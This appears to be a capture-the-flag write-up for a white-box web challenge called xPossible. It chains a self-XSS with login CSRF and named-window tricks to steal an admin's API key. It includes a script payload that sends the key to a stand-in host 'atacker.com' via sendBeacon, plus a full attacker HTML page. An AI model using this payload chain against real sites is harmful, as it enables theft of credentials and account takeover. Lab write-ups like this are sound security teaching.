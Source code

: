 # Exploit `xPossible` challenge 
> [!NOTE]
> AFTER SEC PATCH!!!!! [461d5d03678b2466f0a71ad44d87f0aa1b9ed9ab](https://github.com/VoorivexTeam/white-box-challenges/commit/461d5d03678b2466f0a71ad44d87f0aa1b9ed9ab)

## Source
- [challenge source](https://github.com/VoorivexTeam/white-box-challenges/tree/main/xPossible)

## WriteUp
- login to your account
- put this payload in `name` to perform a `self XSS`
```html
<script>w_with_data = window.open('', 'jahfar'); key = w_with_data.document.querySelector('.api-key p').textContent; navigator.sendBeacon("http://atacker.com", key);</script>
```
the payload will open a window called `jahfar`, read the `w_with_data.document.querySelector('.api-key p').textContent` and send it to `http://atacker.com`
- then make a page with this source and give it to `admin` user
> [!NOTE]
> after this security patch [461d5d03678b2466f0a71ad44d87f0aa1b9ed9ab](https://github.com/VoorivexTeam/white-box-challenges/commit/461d5d03678b2466f0a71ad44d87f0aa1b9ed9ab)
> first we need to create an admin session and then logout the admin to be able to logged into attacker's account
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Redirector</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 0 auto;
            padding: 20px;
            line-height: 1.6;
        }

        .login-form {
            display: none; 
        }

    </style>
</head>
<body>
    <img src="http://dargazbazar.ir//Opitures/111057717951644.jpg" onclick="run()" width="500px" height="500px">

    <img src="https://api.omdebashi.com/static/images/products/cover/golmohammadi-denmarki-moeinipour-3674133-optimized.jpeg" alt="Placeholder Image" onclick="logout()">

    <div class="login-form">
        <form id="loginForm" action="http://victim.com" method="POST">
            <input type="text" name="username" placeholder="Username" value="user" required>
            <input type="password" name="password" placeholder="Password" value="pass" required>
            <input type="hidden" name="login" value="1">
            <button type="submit">Login</button>
        </form>
    </div>

    <script>
        function logout() {
            var a = window.open("http://victim.com?logout=1", "temp", "width=600,height=400"); //logout the admin session
            if (a) {
                setTimeout(() => {
                    if (!a.closed) a.close();
                    document.getElementById("loginForm").submit(); // log into our user with self XSS
                }, 10);
            }
        }

        function run() {
            window.w_with_data = window.open("http://victim.com", "jahfar", "width=100,height=100"); //open the page in admin session
        }
    </script>
</body>
</html>
```
this source will open a window to `http://victim.com` name it `jahfar`, in there, `admin` has a session in there so the API key is admin's API key.<br>
> [!WARNING]
> cause of `Popup Blocking Policies` in browsers, we need two seperate user gestures to open multiple windows, in here I used two images with `onclick`, we can use `onclick` and `dbclick` or other combination.

- then the form is submited, and the `admin` will be logged in to your account and make the xss run
- the xss will get the content of the `jahfar` window, because the `jahfar` window is the same origin with `self XSS` page, we can get the content, `SOP` will not prevent us, and because the session on `jahfar` window is still the admin's session, we can read the admin's API key  


